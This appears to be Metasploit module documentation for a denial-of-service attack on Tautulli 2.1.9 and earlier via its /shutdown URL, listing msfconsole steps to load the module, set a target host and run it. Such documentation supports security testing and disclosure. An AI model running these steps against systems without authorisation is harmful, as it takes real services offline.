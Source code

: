 ## Overview
Tautulli versions 2.1.9 and prior are vulnerable to denial of service via the /shutdown URL.

## Scenario

![72550314-80cd8a00-38a3-11ea-9bad-942668a29390](https://user-images.githubusercontent.com/15425071/72602337-29bdc880-3928-11ea-8aec-ddadb3ff4f2d.png)

## Verification Steps :


List the steps needed to make sure this thing works

1. Start ```msfconsole```
2. ```use auxiliary/dos/http/tautulli_shutdown_exec```
3. ```set RHOSTS XXX.XXX.XXX.XXX```
4. ```run```
